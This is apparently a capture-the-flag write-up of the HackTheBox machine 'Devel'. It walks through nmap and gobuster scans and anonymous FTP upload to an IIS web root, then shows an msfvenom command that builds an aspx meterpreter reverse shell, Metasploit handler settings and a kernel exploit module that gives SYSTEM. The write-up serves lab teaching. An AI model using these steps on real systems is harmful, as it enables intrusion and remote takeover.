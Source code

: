 ```yaml
---
title: "HackTheBox - Devel"
author: Nasrallah
description: ""
date: 2022-08-11 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, ftp, metasploit, msfvenom]
img_path: /assets/img/hackthebox/machines/devel
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Devel](https://app.hackthebox.com/machines/Devel) from [HackTheBox](https://www.hackthebox.com). The Box is running an FTP server with anonymous login allowed on the webserver's root directory, we upload a revere shell to the ftp server and get foothold. We use exploit suggester module to find another module that gives us SYSTEM privilege.

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.5
Host is up (0.12s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Nmap reveals that the target is a windows machine with two open port. Port 21 is running FTP with anonymous login allowed, and port 80 running Microsoft http web server.

## Web

Let's check the web server.

![](1.png)

The website is displaying the welcome page for `IIS`. 

Running a directory scan doesn't reveal much except for a directory that we can't access.

```terminal
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.5/ | tee scans/gobuster                                                    130 ⨯
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.5/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/18 16:14:37 Starting gobuster in directory enumeration mode
===============================================================
/aspnet_client        (Status: 301) [Size: 155] [--> http://10.10.10.5/aspnet_client/]
                                                                                      
===============================================================

```

## FTP

Let's move to the ftp server and login as `anonymous`.

```terminal
$ ftp 10.10.10.5   
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:sirius): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49158|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> 

```

After logging in successfully and listing the content of the ftp server, we see what looks like the files of the web server we visited earlier, that means we're in the root directory of the website.  

# **Foothold**

Let's see if we can upload file to the ftp server.

![](2.png)

We managed to upload the file, now if we navigate to it in the browser we can see it's content.

![](3.png)

The next thing we need to do is upload a reverse shell, but first let's generate one using `msfvenom`.

## MSFVenom

The payload we are going to generate is a aspx file (Active Server Pages), which is Microsoft's server-side scripting language and engine for dynamic web pages, like `php`.

We use the following command to generate the reverse shell.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=9999 -f aspx -o shell.aspx
```

 - -p : Payload to use.
 - LHOST : Local host/Attacking machine IP.
 - LPORT : Listening port.
 - -f : Output format.
 - o : File where to save the payload.

```terminal
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=9999 -f aspx -o shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of aspx file: 3641 bytes
Saved as: shell.aspx

```

Now let's login the the FTP server and put it there.

![](4.png)

## Metasploit

Now let's fire up metasploit, use the `multi/handler` module and set the following options.

```
set payload windows/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 9999
```

![](5.png)

After setting the options above and running the module, we request the file and receive the reverse shell.

![](6.png)


# **Privilege Escalation**

For this part, we can use `exploit_suggester` module that would give us modules to try to upgrade to system privilege.

After some trial and error, the module `ms10_015_kitrap0d` succeeds in giving us a SYSTEM shell.

![](7.png)


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).